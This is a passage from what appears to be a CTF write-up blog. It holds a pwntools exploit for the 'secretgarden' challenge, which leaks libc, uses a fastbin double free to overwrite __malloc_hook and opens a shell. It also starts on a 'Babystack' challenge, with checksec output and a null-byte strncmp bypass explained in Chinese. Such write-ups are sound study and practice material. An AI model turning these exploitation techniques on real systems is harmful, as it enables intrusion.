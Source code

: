 ```python
#context.log_level='debug'
show()
p.readuntil("Name of the flower[0] :")
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7ffff7dd1b41-0x7ffff7a0d000)+0x1000
#libc=ELF("./secretgarden").libc
libc=ELF("./libc_64.so.6")
libc.address=base
log.warning(hex(base))

add("nier",0x68)#2
add("nier",0x68)#3
add()
free(2)
free(3)
free(2)
clear()
add(p64(libc.symbols['__malloc_hook']-35),0x68)#2
add("\n",0x68)#3
add("\n",0x68)#2
add("\x00"*19+p64(0xef6c4+base),0x68)#2
free(2)
free(2)
#gdb.attach(p)
p.interactive()
```

# Babystack

```
➜  Desktop checksec babystack
[*] '/home/n132/Desktop/babystack'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```
漏洞点也比较简单
```arm
int __fastcall check(const char *sec)
{
  size_t len; // rax
  char s; // [rsp+10h] [rbp-80h]

  printf("Your passowrd :");
  do_read((unsigned __int8 *)&s, 0x7Fu);
  len = strlen(&s);
  if ( strncmp(&s, sec, len) )
    return puts("Failed !");
  Login = 1;
  return puts("Login Success !");
}
```
首先是登录.因为这里用的len是我们输入的len所以我们可以用00截断例如输入'\x00'我们就可以根据返回来爆破随机数


[1]: https://code.woboq.org/qt5/include/linux/prctl.h.html
[2]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[3]: https://blog.csdn.net/qq_19683651/article/details/61418292
[4]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[5]: https://n132.github.io/2019/02/11/Kidding/
[6]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[7]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[8]: https://n132.github.io/2019/02/23/mno2/
[9]: https://code.woboq.org/userspace/glibc/time/tzset.c.html#__tz_convert